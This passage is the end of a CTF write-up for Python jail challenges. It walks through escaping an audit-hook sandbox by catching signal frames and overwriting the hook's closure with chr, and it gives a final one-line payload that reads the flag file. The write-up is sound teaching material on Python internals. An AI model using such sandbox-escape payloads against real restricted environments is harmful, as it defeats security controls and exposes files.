```python
{'__name__': '__main__', '__doc__': 'from sys import addaudithook\n\ndef hook(*a): exit(0)\ndef dummy() : pass\n\nexpr = input("Math expression: ")\ndummy.__code__ = compile(expr, "<code>", "eval")\n\naddaudithook(hook)\n\nprint(dummy())', '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x00000162B1E85210>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'c:path\\to\\wu.py', '__cached__': None, 'addaudithook': <built-in function addaudithook>, '_exit': <built-in function _exit>, 'safe_eval': <function safe_eval at 0x00000162B1E304A0>, 'expr': "s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f.f_locals)),s.raise_signal(2)", 's': <module '_signal' (built-in)>}
```

Well not the right frame, let's move up and down with ``f_back`` (leaving the ``dummy()`` frame and going to ``safe_eval``)

```python
(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f.f_back)),s.raise_signal(2)

# Output
<frame at 0x000001A3949DAF60, file 'c:path\\to\\wu.py', line 27, code safe_eval>

# f_locals
{'exit': <built-in function _exit>, 'code': "(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f.f_back.f_locals)),s.raise_signal(2)", 'hook': <function safe_eval.<locals>.hook at 0x000001ABF4218D60>, 'dummy': <function safe_eval.<locals>.dummy at 0x000001ABF4218EA0>}
```

Finally 🤩 ! We have access to ``hook`` 🥳🎉
To finish we just need to modify its local values through its ``__closure__`` ([ref](https://docs.python.org/3/reference/datamodel.html#function.__closure__))

```python
lambda n,f:f.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',chr))
```

🥁 ***Final solution*** 🥁

```python
(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:f.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',chr)),s.raise_signal(2),open('flag').read()

# And to avoid the limits in the Original version™️
0,(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:f.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',chr)),s.raise_signal(2),open('flag').read()


# Output
(0, <module '_signal' (built-in)>, <built-in function default_int_handler>, None, 'well_done')
```
<br><br>
## Closing note
Overall pretty interesting PyJails 💖 They were well guided with their really distinct little details, the left over ``ord`` in Ok Nice and all the function setup in Calc.
As always we learned a lot about Python internals and what a madness it is in there 😋 Ok Nice was based more on our Python skills and creativity to get the flag, while Calc was more on Python internals (sys, \_signal, frames, closure, ...)
For **Calc**, one inspiration to find a bypass would be by looking at what was previously made. Audithooks are pwned since Python 3.8 and there are some places where it is ~~randomly~~ discussed, for instance [on Github](https://github.com/python/cpython/issues/87604)
